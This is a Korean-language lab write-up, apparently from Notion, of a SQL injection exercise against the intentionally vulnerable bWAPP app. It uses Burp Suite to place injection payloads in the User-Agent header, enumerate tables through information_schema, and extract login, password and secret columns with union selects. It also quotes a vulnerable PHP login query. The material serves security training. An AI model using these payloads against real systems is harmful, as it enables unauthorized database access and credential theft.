bWAPP box에서 user-Agent에 sql ingection 실습을 진행한다. 페이로드는 user-agent 필드에 넣어야 하므로 kali linux에서 burp-suite를 활용하여 패킷을 가로채서 sql을 ingection 한다. 

sqli_17.php 시나리오 접속 

security_level: low



firefox network settings 

url에 about:preference:general 

network settings에서 http proxy에 버프슈트 주소 127.0.0.1:8080 으로 설정



버프슈트 에서 interface 127.0.0.1:8080 설정



intercept on



새로고침을 하면 버프슈트에서 가로채는지 확인



low_level은 $data를 받아서 추가적인 체크 로직을 호출하지 않는다.



### 1. user-agent ingection 실습

테이블구조는 동일하기 때문에 절차 또한 비슷하다.

1. 현재 시나리오에서 쓰고 있는 테이블을 확인하고

1. 테이블구조를 확인한 후 탈취하고자 하는 테이블을 union으로 가져와서 컬럼, 데이터 구조 등을 확인한다.

1. 취득한 정보를 바탕으로 sql-injection payload를 작성해서 user-agent에 주입한다

1. php 서버에서는 해당 페이로드를 실행하고 sql query를 실행해서 정보를 client에 돌려준다. 

1. 최종적으로 user, login, password등을 확인하고 이를 바탕으로 접근할수 없는 데이터들에 접근한다.

제일 먼저 information_schema 데이터베이스에 접근한후 



mysql이 가지고 있는 데이터베이스 목록들을 뽑아낸다.



### 1. mysql 데이터베이스 목록 확인(information_schema)

sql-injection payload

```sql
abcd', (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)) #
```

버프슈트에서 user-agent 필드에 injection 코드를 넣는다.



수정 후 forward

bWAPP에서 확인



현재 시나리오에서는 기본적으로 bWAPP 테이블을 사용하기 때문에 bWAPP의 첫번째 행인 blog가 IP_Address 컬럼에 들어가고, user-agent컬럼에 abcd가 들어간것을 확인할 수 있다. 이후 limit 0,1 → 1,1 → 2,1 값으로 증가시키면서 각 행들을 뽑아낼수 있다. 



```sql
abcd', (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)) #
```



```sql
abcd', (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 2,1)) #
```



```sql
abcd', (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 3,1)) #
```







```sql
abcd', (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 4,1)) #
```

그룹 쿼리를 통해 bWAPP의 전체 컬럼을 한번에 뽑아낼수 있다.

```sql
abcd', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema='bWAPP' AND table_name='users')) #
```



id, login, password, email, secret, activation_code, act 컬럼들을 확인할 수 있다.

```sql
abcd', (SELECT TABLE_SCHEMA FROM information_schema.tables WHERE table_name='users' LIMIT 0,1)) #
```

```sql
0 union select 1,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAMES,5,6,7 from information_schema.COLUMNS where TABLE_SCHEMA='bWAPP' and TABLE_NAME='heroes' limit 3,1 # 


0 union select 1,id,login,password,secret,6,7 from heroes limit 1,1 #


<?php
    133 
    134     if(isset($_POST["form"]))
    135     {
    136 
    137         $login = $_POST["login"];
    138         $login = sqli($login);
    139 
    140         $password = $_POST["password"];
    141         $password = sqli($password);
    142         $password = hash("sha1", $password, false);
    143 
    144         $sql = "SELECT * FROM users WHERE login = '" . $login . "'";
    145 
    146         // echo $sql;
    147 
    148         $recordset = mysql_query($sql, $link);
    149 
    150         if(!$recordset)
    151         {
    152 
    153             die("Error: " . mysql_error());
    154 
    155         }
    156 
    157         else


```

원본: [Notion](https://app.notion.com/p/SQL-Injection-Stored-User-Agent-410aa16a5aa480f7894ddbe36cd83791)
